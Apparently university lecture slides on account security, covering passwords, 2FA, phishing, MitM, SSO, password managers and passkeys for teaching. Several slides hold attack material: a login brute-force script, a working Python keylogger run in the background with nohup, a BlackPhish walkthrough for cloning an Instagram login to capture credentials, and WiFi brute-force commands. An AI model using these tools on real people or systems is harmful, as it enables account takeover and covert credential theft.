<p class='titlep'> </p> <bodyP> <div class="person"></div> </bodyP> # Securing Accounts ### CSE-400 <p class="blink" style="color:blue;font-size:24px;">xinxing.wu@midway.edu</p>
# Key knowledge - Emphasizes the importance of securing accounts, data, systems, and software against threats. - Both <spanBYMix>technical</spanBYMix> and <spanBYMix>non-technical</spanBYMix> aspects, focusing on authentication, authorization, and the necessity of strong, unique passwords to defend against dictionary and brute force attacks.
# Contents [Passwords](#/Passwords)<br> [Two-Factor Authentication](#/Authentication)<br> [Credential Stuffing](#/Stuffing)<br> [Social Engineering](#/Engineering)<br> [Phishing](#/Phishing)<br> [Machine-in-the-Middle Attacks](#/Middle)<br> [Single Sign-on](#/Single)<br> [Password Managers](#/Managers)<br> [Passkeys](#/Passkeys)<br> [Assignments](#/Assignments) <ft>Perfection is unattainable and resources are always limited.</ft>
# Passwords
## Passwords - Accounts: threats vs. defense => Keep accounts secure <p class='titlep'> </p> # <p class="hover-underline-animation"> How to keep safe in the physical world?</p> > Security in the physical world <p></p> <p></p> > Digital world > Security of accounts in terms of authentication - Physical keys => Usernames (Email address, uniquely identifies a person in the world): Public - Password: Private > Hundredss of Passwords - Distinct and not reuse<br> > Password Attacks <p></p> > Dictionary Attack Hacker => typing randomly to figure what the password is (Physical book of words) <p></p> <p></p> - English letters, numbers, punctuation - Brute force attack=> try all possible passwords - Password is short <p></p> <p></p> > Password Attacks <p></p> > Defense attacks - Four-digit passcode? <p class='titlep'> </p> ## <p class="hover-underline-animation"> How many possibilities are there (all digits 0 ~ 9)?</p><br> <p></p> <p class='titlep'> </p> <div class="wrapper nine"> <div> <h3 class="rotate"> <span>C</span> <span>0</span> <span>D</span> <span>I</span> <span>N</span> <span>G</span> </h3> </div> </div> ``` from string import digits for i in digits: for j in digits: for k in digits: for l in digits: print(i,j,k,l) ``` <br> <div class="wrapper nine"> <div> <h3 class="rotate"> <span>M</span> <span>O</span> <span>R</span> <span>E</span> <span></span> <span>C</span> <span>0</span> <span>D</span> <span>I</span> <span>N</span> <span>G</span> </h3> </div> </div> <ftCode> ``` import requests payload = {'username': 'xinxingwuTest', 'password': '003456'} #The cookie was already set and thus the Set-Cookie will not be included on the Response header. for i in range(0,10,1): for j in range(0,10,1): payload['password']=str(i)+str(j)+'3456' #print(payload['password']) r = requests.post("https://netsim.erinn.io/index.php", data=payload) #print(r.text) isLogin=not ('Set-Cookie' in r.headers.keys()) if (isLogin): print("") print("The password is ", payload['password']) break; else: print(".", end =" ") if (isLogin): break; ``` </ftCode> <p class='titlep'> </p> <div class="wrapper nine"> <div> <h3 class="rotate"> <span>L</span> <span>E</span> <span>T</span> <span>T</span> <span>E</span> <span>R</span> <span>S</span> </h3> </div> </div> ``` from string import ascii_letters for i in ascii_letters: for j in ascii_letters: for k in ascii_letters: for l in ascii_letters: print(i,j,k,l) ``` <h4> <p class="hover-underline-animation"> Lowercase and uppercase letters</p></h4> <p class='titlep'> </p> <div class="wrapper nine"> <div> <h3 class="rotate"> <span>M</span> <span>O</span> <span>R</span> <span>E</span> </h3> </div> </div> ``` from string import ascii_letters,digits,punctuation for i in ascii_letters+digits+punctuation: for j in ascii_letters+digits+punctuation: for k in ascii_letters+digits+punctuation: for l in ascii_letters+digits+punctuation: print(i,j,k,l) ``` <h5> <p class="hover-underline-animation"> Lowercase and uppercase letters 52, Digits 10, Punctuation 32</p> </h5> <p class='titlep'> </p> <p class='titlep'> </p> <h2> <p class="hover-underline-animation">From 10000 to 7 million</p></h2> <div class="wrapper nine"> <div> <h3 class="rotate"> <span>8</span> <span>C</span> <span>H</span> <span>A</span> <span>R</span> <span>S</span> <span>?</span> </h3> </div> </div> Comparing the following two programs. <div class="wrapper nine"> <div> <h3 class="rotate"> <span>C</span> <span>O</span> <span>D</span> <span>E</span> <span>I</span> </h3> </div> </div> ``` import time import itertools def generate_combinations(): combinations = itertools.product(range(10), repeat=4) for password in combinations: password_str = ''.join(map(str, password)) print(password_str) if __name__ == "__main__": start = time.time() generate_combinations() end = time.time() print("The execution time :",(end-start) * 10**3, "ms") ``` [How to check the execution time of Python script ?](https://www.geeksforgeeks.org/how-to-check-the-execution-time-of-python-script/) Comparing the following two programs. <div class="wrapper nine"> <div> <h3 class="rotate"> <span>C</span> <span>O</span> <span>D</span> <span>E</span> <span>II</span> </h3> </div> </div> ``` import time import itertools from multiprocessing import Pool, cpu_count def generate_combinations(): combinations = itertools.product(range(10), repeat=4) return combinations def print_combination(combination): password_str = ''.join(map(str, combination)) print(password_str) if __name__ == "__main__": start = time.time() combinations = generate_combinations() pool = Pool(cpu_count()) pool.map(print_combination, combinations) pool.close() pool.join() end = time.time() print("The execution time :",(end-start) * 10**3, "ms") ``` > Password Attacks <p></p> <p class='titlep'> </p> ## <p class="hover-underline-animation"> The longer the password gets, and the more complicated it gets</p><br> > Passkeys - Passkeys are safer-Developers only save a public key to the server instead of a password - [Passkey vs Password: What’s the Difference?](https://www.keepersecurity.com/blog/2023/10/17/passkey-vs-password-whats-the-difference/) - [Goodbye Passwords! Hello Passkeys](https://www.youtube.com/watch?v=sl1oAZAsBPo) <p></p> > Passkeys - [Passkeys Demo](https://passkeys-demo.appspot.com/)<br> <p></p> > Biometrics - Fingerprint, face, ... <p class='titlep'> </p> <p class='titlep'> </p> ## <p class="hover-underline-animation"> Usability and Security</p><br> > Compare the prospective secrets - Values known to be commonly used, expected, or compromised. - Social media: the name of your pet <p class='titlep'> </p> <p class='titlep'> </p> ## <p class="hover-underline-animation"> Any better ideas?</p><br> > Change passwprds frequently - Change passwprds every month, three months, ... - You might exert the minimal amount of energy to change the password so that you meet the company's requirements so that it is not too hard for you to remember what the new password is. - If the information of your past passwords leaks out ... More vulnerable to brute force attacks - Keep forgetting passwords ... What my next password is <img src="./images/bruteforce1.gif" alt="drawing" height="600"/> > Rate-limiting mechanism - Limits the numer of failed authentication attempts that can be made. - It turns out you can lock yourself out of your own phone. - Apple and Google and others, is that if after 10 times you still haven't inputted your password correctly, it's probably a higher probability that you are not you - It increases the cost of this attack: slowing down > Further reading of Brute Force Algorithms - [Brute Force Algorithms Explained](https://www.freecodecamp.org/news/brute-force-algorithms-explained/) - [Brute Force Approach and its pros and cons](https://www.geeksforgeeks.org/brute-force-approach-and-its-pros-and-cons/)
# Two-Factor Authentication
## Two-factor authentication (2FA) > 2FA is an identity and access management security method that requires two forms of identification to access resources and data. - 2FA = password + SMS code (An example) 👍 (SMS is insecure and that you should use an authentication app) ## Multifactor authentication - A knowledge factor: you keep secret, no one else knows - A possession factor: Android phone, iPhone, SMS support, text messaging, or maybe a specific app <p></p> <p></p> [How to setup Idem Key for Bank of America](https://www.youtube.com/watch?v=u5JLYN7H6-M) ## Multifactor authentication - Biometrics: only you <p></p> ## Multifactor authentication <iframe width="946" height="532" src="https://www.youtube.com/embed/bp-MrrAmprA" title="How To Copy a Fingerprint Like a Spy - iPhone Touch ID Hack!!!" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe> ## Multifactor authentication - One-Time Password, or OTP - USB or some other technology - <spanRED>Removing</spanRED> the human from the formula. - The device itself can just authenticate using <spanRED>special software</spanRED> on the system instead. ## Multifactor authentication - Specific App: one-time passwords; Duo <p></p> [The Top 5 Free Authenticator Apps](https://expertinsights.com/insights/the-top-free-authenticator-apps/#:~:text=Authy%20is%20a%20Twilio%20service,%2C%20PIN%20protection%2C%20and%20passwords.) - Send you one of one-time passwords via text; SMS. > SMS - An SMS OTP is a secure authorisation method where a numeric or alphanumeric code is sent to a mobile number. - This password is an added layer of security used to verify a user's identity when logging in online or confirming an action. > SMS - SIM card has a unique identifier. <p></p> [What Is a SIM Card and How Does It Work?](https://builtin.com/hardware/what-is-a-sim-card) > A SIM-swap scam - A SIM-swap scam, also referred to as SIM-swapping, is a type of account takeover attack that specifically targets someone’s phone as a way to get access to their online accounts. - SIM-swapping is notable because unlike many account takeover attacks, it specifically targets a something-you-have authentication factor – namely, verification codes sent to your phone by a call or text. > A SIM-swap scam - The end goal of SIM-swapping is to gain remote access to a person’s SIM card, and any SMS OTPs they may receive [What is SIM-swap scam, and how can you protect your users against one?](https://stytch.com/blog/sim-swapping/) > Specific App - Infected with something like a virus or a worm; Key logging - Keystroke logging is the <spanRED>process of recording (logging)</spanRED> the keys pressed on a keyboard (<spanGREEN>usually when the user is unaware</spanGREEN>). Aka, keylogging or keyboard capturing. - one-time password: fast enough <spanGREEN>?</spanGREEN> > Keylogger <div class="wrapper nine"> <div> <h3 class="rotate"> <span>C</span> <span>0</span> <span>D</span> <span>I</span> <span>N</span> <span>G</span> </h3> </div> </div> ``` from pynput.keyboard import Key, Listener import logging logging.basicConfig(filename=("keylog.txt"), level=logging.DEBUG, format=" %(asctime)s - %(message)s") def on_press(key): logging.info(str(key)) with Listener(on_press=on_press) as listener: listener.join() ``` For more details, please see [Link1](https://www.askpython.com/python/examples/python-keylogger); [Link2](https://medium.com/@meetmeonmail04/a-simple-keylogger-using-python-ddc39d04b5ab); [Link3](https://www.geeksforgeeks.org/design-a-keylogger-in-python/) > Keylogger (Ubuntu) <div class="wrapper nine"> <div> <h3 class="rotate"> <span>C</span> <span>0</span> <span>D</span> <span>I</span> <span>N</span> <span>G</span> </h3> </div> </div> ``` sudo rm /var/lib/apt/lists/lock sudo rm /var/cache/apt/archives/lock sudo rm /var/lib/dpkg/lock* sudo apt update sudo apt install python3-pip sudo apt install vim sudo pip3 install pynput ``` ``` python3 keylogger.py nohup python3 keylogger.py & ``` <img src="./images/Add2.jpg" alt="drawing" width="800"/> <p></p> <p class='titlep'> </p> <div class="wrapper nine"> <div> <h3 class="rotate"> <span>C</span> <span>0</span> <span>D</span> <span>I</span> <span>N</span> <span>G</span> </h3> </div> </div> ``` sudo apt-get update sudo apt-get install python3-dev ``` This should resolve the issue with the missing Python.h file and allow the build to complete successfully. <p class='titlep'> </p> <p class='titlep'> </p> ## <p class="hover-underline-animation">What are other attacks that we should be mindful of?</p><br>
# Credential Stuffing
## Credential Stuffing - Credential stuffing is a cyber attack in which credentials obtained from a data breach on one service are used to attempt to log in to another unrelated service. <div class="popup" onclick="myFunction1()"><p class="blink" style="font-size:24px;"><spanRED>Example</spanRED></p> <span class="popuptext" id="myPopup1" STYLE="font-size:25px">An attacker may take a list of usernames and passwords obtained from a breach of a major department store, and use the same login credentials to try and log in to the site of a national bank. The attacker is hoping that some fraction of those department store customers also have an account at that bank, and that they reused the same usernames and passwords for both services.<br> Credential stuffing means not using dictionaries, not using brute force, but just literally using a list of already known usernames and passwords. </span> </div> <p></p> <p class='titlep'> </p> <p class='titlep'> </p> #### <p class="hover-underline-animation">If you are using the same username and the same password on 2 websites, 3 websites, 30 websites, all websites you are today vulnerable to this attack.</p><br> > Credential stuffing - Username? Yes, especially if it's your email address. - But passwords, no. - How we can try to achieve this, <spanGREEN>avoiding</spanGREEN> credential stuffing by having unique passwords
# Social Engineering
## Social Engineering - Social engineering refers to all techniques aimed at talking a target into revealing specific information or performing a specific action for illegitimate reasons. <p></p> <p></p> [What is "Social Engineering"?](https://www.enisa.europa.eu/topics/incident-response/glossary/what-is-social-engineering) ## Social Engineering - If you have a piece of paper near you and a pen or pencil, ..., write down, one of your passwords. ## Social Engineering - If any teacher asks you to write down a password on a piece of paper, one point for today is just don't do it. - If someone calls you on the phone, sends you an email and tries to get information from you - If you had someone ask you what your first pet was - ... - You should wonder, wait a minute, why do they need that information? ## Social Engineering - [The Social Engineering Toolkit (SET)](https://trustedsec.com/resources/tools/the-social-engineer-toolkit-set) - [GitHub of SET](https://github.com/trustedsec/social-engineer-toolkit)
# Phishing
## Phishing - An attempt to <spanRED>steal</spanRED> sensitive information, typically in the form of usernames, passwords, credit card numbers, bank account or other important data in order to utilize or sell the <spanRED>stolen</spanRED> information. <p></p> [What is a phishing attack?](https://www.cloudflare.com/learning/access-management/phishing-attack/) ## Phishing <img src="./images/add1.jpg" alt="drawing" height="200"/> - On the <div class="popup" onclick="myFunction6()"><p class="blink" style="font-size:24px;"><spanBYMix>Dark Web</spanBYMix></p><span class="popuptext" id="myPopup6" STYLE="font-size:18px">Accessing the dark web involves a few specific steps, but it's important to proceed with caution and awareness.<br> The dark web is a part of the internet that isn't indexed by traditional search engines and requires special software to access.<br>Download and Install Tor Browser: The most common way to access the dark web is through the Tor network. You need to download the Tor Browser, which is designed to anonymize your web traffic https://www.torproject.org/<br> Once installed, use the Tor Browser to navigate websites with the ".onion" domain. These sites are only accessible via Tor.<br>Be Aware of Security Risks: The dark web can be a risky place. It hosts illegal activities and scams, so be cautious about the websites you visit and the information you share. <br> Understand the Legal Implications: Accessing the dark web itself isn't illegal, but engaging in illegal activities on it is. Be aware of the laws in your jurisdiction and avoid participating in unlawful activities. </span></div>, stolen information is commoditized and traded with impunity. Credentials and personal data are often sold in combo lists, a compilation of usernames, addresses, ID numbers, passwords, and assorted bits of more information from various breaches. ## Phishing - If you go through your spam folder sometime, you will see emails that seem to be coming from <spanGREEN>paypal.com</spanGREEN> or <spanGREEN>seem</spanGREEN> to be coming from Google or maybe a politician or the like. - Maybe make a donation, click a link, maybe change your password, click a link, and verify your information. ## Phishing - Phishing is a <spanBYMix>social-engineering</spanBYMix> attack in which the attacker targets the victim’s brain for getting critical details like <spanGREEN>usernames</spanGREEN>, <spanGREEN>passwords</spanGREEN>, etc. - In Phishing the clone of the genuine page is been created to bluff the victim and capture the credentials. ## Phishing > https://www.midway.edu/ > https://www.midwayy.edu/ - We can create a phishing page like https://www.midway.edu/ which is completely identical to https://www.midwayy.edu/. Only the difference between both URLs is the extra ‘y’ which is added in the second URL. ## Phishing - <spanBYMix>Blackphish</spanBYMix> is a powerful open-source Phishing Tool. Blackphish is becoming very popular nowadays , that is used to do phishing attacks on Target. - Blackphish is easier than Social Engineering Toolkit. ## Phishing ``` git clone https://github.com/iinc0gnit0/BlackPhish ``` <p></p> ## Phishing ``` sudo bash install.sh ``` <p></p> ## Phishing ``` sudo python3 blackphish.py ``` <p></p> ## Phishing <p></p> ## Phishing - Create a phishing page for Instagram so type 1 and press enter. <p></p> ## Phishing - Choose option 4 <p></p> ## Phishing - Enter <p></p> ## Phishing - Copy the IP address and past it in the browser. <p></p> ## Phishing - Copy the IP address and past it in the browser. <p></p> ## Phishing - When the victim will enter the credential , it will be reflected in the terminal of the attacker. <p></p> ## Phishing - [Blackphish – Phishing tool in Kali Linux](https://www.geeksforgeeks.org/blackphish-phishing-tool-in-kali-linux/) ## Phishing - [GitHub Project](https://github.com/iinc0gnit0/BlackPhish) </div>
# Man-in-the-Middle (MitM) Attacks
## Man-in-the-Middle (MitM) - An attack where the adversary positions between the user and the system so that can <spanBYMix>intercept</spanBYMix> and <spanBYMix>alter</spanBYMix> data traveling between them. <p></p> ## Man-in-the-Middle (MitM) - MitM attacks are also sometimes referred to as <spanBYMix>monster-in-the-middle</spanBYMix>, <spanBYMix>machine-in-the-middle</spanBYMix>, <spanBYMix>monkey-in-the-middle</spanBYMix> and <spanBYMix>man-in-the-browser attacks</spanBYMix>. - Man-in-the-browser is the <spanRED>most</spanRED> common type of MitM attack in which the attackers focus on browser infection and inject malicious proxy malware into the victim's device. ## Man-in-the-Middle (MitM) - Those machines might be things like <spanRED>routers</spanRED>, <spanRED>servers</spanRED> that internet service providers companies, universities, maybe even your own home owns and controls. <p></p> <p></p> ## Man-in-the-Middle (MitM) - All of your data is <spanRED>passing through those machines in the middle</spanRED>,... - If any of them are malicious and are maybe storing your data, looking at your data, ... <p></p> ## Man-in-the-Middle (MitM) <p></p> ## Man-in-the-Middle (MitM) <p></p> [man-in-the-middle attack (MitM)](https://www.techtarget.com/iotagenda/definition/man-in-the-middle-attack-MitM#:~:text=MitM%20attacks%20are%20also%20sometimes,malware%20into%20the%20victim's%20device.) ## Man-in-the-Middle (MitM) [Machine-in-the-Middle (MitM) Bluetooth Low Energy (BLE) Attack](https://www.blackhillsinfosec.com/machine-in-the-middle-mitm-ble-attack/) ## Man-in-the-Middle (MitM) > How to protect - Using a virtual private network - 2 Factor authentication - Secure encrypted methods of communication - Secure encrypted Wi-Fi channels (prevent unauthorised access to the network), avoid using Wi-Fi in public areas > Wifi Brute Force <div class="wrapper nine"> <div> <h3 class="rotate"> <span>C</span> <span>0</span> <span>D</span> <span>I</span> <span>N</span> <span>G</span> </h3> </div> </div> ``` pip3 install comtypes python3 WifiBrute.py ``` - [Project](https://drive.google.com/file/d/19IH4JlNKbhQBIR0yk_8evPTKyilFXsLy/view?usp=sharing) <div class="popup" onclick="myFunction2()"><p class="blink" style="font-size:24px;"<spanBYMix>Codes Project</spanBYMix></p> <span class="popuptext" id="myPopup2" STYLE="font-size:25px">A example of Wifi Brute Force: A tool to crack a wifi password with a help of wordlist. This may take long to crack a wifi depending upon number of passwords your wordlist contains. </span> - [GitHub Project](https://github.com/CPScript/WifiBrute) </div>
# Single Sign-on
<p class='titlep'> </p> <p class='titlep'> </p> ## <p class="hover-underline-animation">What are some other defenses to make things better?</p><br> ## Single Sign On (SSO) - SSO is an authentication scheme that allows a user to log in with a single ID to any of several related, yet independent, software systems. <div class="popup" onclick="myFunction4()"><p class="blink" style="font-size:24px;"><spanBYMix>Example</spanBYMix></p> <span class="popuptext" id="myPopup4" STYLE="font-size:25px">SSO refers to an ability to sign up for, to log in to one's website using an account that you already have on another website. </span> </div> <p class='titlep'> </p> <p class='titlep'> </p> ## <p class="hover-underline-animation">What is actually happening here?</p><br> ## Single Sign On (SSO) - When you click Log in with <spanRED>Google</spanRED>, Log in with <spanRED>Facebook</spanRED>, you should see the Google login screen or the Facebook login screen respectively. - You should literally be redirected in your browser to <spanRED>google.com</spanRED> or <spanRED>facebook.com</spanRED> or one of their international domain names instead. ## Single Sign On (SSO) - Example: <spanRED>Liscio</spanRED> offers one-click login (Single Sign-On) with Google and Office 365. <p></p> ## Single Sign On (SSO) - You'll type in your same username and password as usual for Google or Facebook. But that password is not given to this new website or this third-party website - Using a technique known as cryptography and encryption essentially. ## Single Sign On (SSO) - The username with which you log in is sent back to this third-party website, but not your password, just a confirmation that yes, you successfully logged into Google or Facebook. - Using single sign on benefits not only you potentially but also the website or application by making it easier for you to register and/or log in subsequently as well. ## Single Sign On (SSO) - Without an SSO solution, the website maintains a database of login credentials – usernames and passwords. <p></p> <div class="popup" onclick="myFunction5()"><p class="blink" style="font-size:24px;"><spanBYMix>Example</spanBYMix></p> <span class="popuptext" id="myPopup5" STYLE="font-size:25px">Each time the user logs in to the website, it checks the user’s credentials against its database and authenticates the user. Logging in to your Google account once will allow you to access Google applications such as Google Docs, Gmail, and Google Drive. </span> </div> > How does SSO Login work? - Step 1(a). The user enters login credentials on the website and the website checks to see if the user has already been authenticated by SSO solution. <p></p> > How does SSO Login work? - Step 1(b). If so, the SSO solution would give the user access to the website. Otherwise, it presents the user with the SSO solution for login. > How does SSO Login work? - Step 2. The user enters a username and password on the SSO solution. > How does SSO Login work? - Step 3. The user’s login credentials are sent to the SSO solution. > How does SSO Login work? - Step 4 (a). The SSO solution seeks authentication from the identity provider, such as an Active Directory, to verify the user’s identity. > How does SSO Login work? - Step 4 (b). Once the user’s identity is verified, the identity provider sends a verification to the SSO solution. > How does SSO Login work? - Step 5. The authentication information is passed from the SSO solution to the website where the user will be granted access to the website. > How does SSO Login work? - Step 6 (a). The website passes authentication data in the form of tokens. > How does SSO Login work? - Step 6 (b). As a form of verification that the user is authenticated as the user navigates to a different application or web page. ## Single Sign On (SSO) - With the SSO solution, the website does not store login credentials in its database. Instead, SSO makes use of a shared cluster of authentication servers where users are only required to enter their login credentials once for authentication. With this feature of one login and multiple access, it is crucial to protect login credentials in SSO systems. [What Is single sign-on (SSO)?](https://www.okta.com/blog/2021/02/single-sign-on-sso/) [Single Sign On Mechanism Using Attribute Based Encryption In Distributed Computer Networks](https://www.sciencedirect.com/science/article/pii/S1877050915004962?ref=pdf_download&fr=RR-2&rr=89b7417c09646275) ## Single Sign On (SSO) - Integrate SSO with other strong authentication means such as smart tokens or one-time passwords to achieve multi-factor authentication. <p class='titlep'> </p> > You're using the same password on multiple sites or applications, you're vulnerable to credential stuffing ... ## <p class="hover-underline-animation">Do you have any good ideas?</p><br> <p class='titlep'> </p> <p class='titlep'> </p> ## <p class="hover-underline-animation">What about using a password manager?</p><br>
# Password Managers
## Password Managers - You should probably be using a password manager instead so that you can change all of those accounts to have unique passwords. - This piece of software known as a password manager can remember those passwords for you. -These password managers also make it easy to generate new passwords. ## Password Managers - On the real gmail.com or the real facebook.com or the real paypal.com. These password managers remember the URL at which you created or last used that username and password so that if you are somehow subject to a phishing attack. <div class="popup" onclick="myFunction3()"><p class="blink" style="font-size:24px;"><spanBYMix>Example</spanBYMix></p> <span class="popuptext" id="myPopup3" STYLE="font-size:25px">You've been tricked into clicking a link and going to a website that looks like Google looks, like Facebook, but actually isn't-- the password manager will ignore your keystrokes and not actually log you in, pasting into that form your actual username and password because it doesn't recognize that same URL. </span> </div> > Putting all of your eggs in one basket Remember one primary password that protects your password manager itself.
# Passkeys
## Passkeys - It's been common for years for browsers to remember your username and passwordn by just showing you, like, bullets like, dot, dot, dot, in the form field. - So you can just hit Enter. - But that information is often associated only with that one browser. ## Passkeys - Apple - iCloud Keychain via which you can not only save passwords on one device, they can propagate securely to your other device, like your phone. <p></p> - Google has its password manager. - Microsoft has its credential manager. ## Passkeys - AI can record your voice and sample it. - Could be a real threat in social engineering because now someone can mimic your boss and call you or someone can mimic your voice and call your bank. - Any your account, particularly bank accounts, you are using voice recognition technology, ... <video controls height="160" style="top:10px;right:0px" > <source src="videos/AlbertW1aV.mp4" type="video/mp4"> <source src="movie.ogg" type="video/ogg"> Your browser does not support HTML5 video. </video> <video controls height="160" style="top:10px;right:0px" > <source src="videos/DakotaJohnsonW3aV.mp4" type="video/mp4"> <source src="movie.ogg" type="video/ogg"> Your browser does not support HTML5 video. </video> <video controls height="160" style="top:10px;right:0px" > <source src="videos/TrevorW4aV.mp4" type="video/mp4"> <source src="movie.ogg" type="video/ogg"> Your browser does not support HTML5 video. </video> <video controls height="160" style="top:10px;right:0px" > <source src="videos/WuV.mp4" type="video/mp4"> <source src="movie.ogg" type="video/ogg"> Your browser does not support HTML5 video. </video> <video controls height="160" style="top:10px;right:0px" > <source src="videos/HomepageV.mp4" type="video/mp4"> <source src="movie.ogg" type="video/ogg"> Your browser does not support HTML5 video. </video> <p class='titlep'> </p> <p class='titlep'> </p> ## <p class="hover-underline-animation">Don't use voice-based recognition anymore, if there's a better alternative availabl.</p><br>
<bodyDp> <div class="dancer"> <div class="head"></div> <div class="leg-left"></div> <div class="leg-right"></div> <div class="foot-left"></div> <div class="foot-right"></div> </div> </bodyDp> # Assignments
## Assignments 🌞 - <a href="https://midway.instructure.com/courses/7239/quizzes/32794">Question for Account Security</a>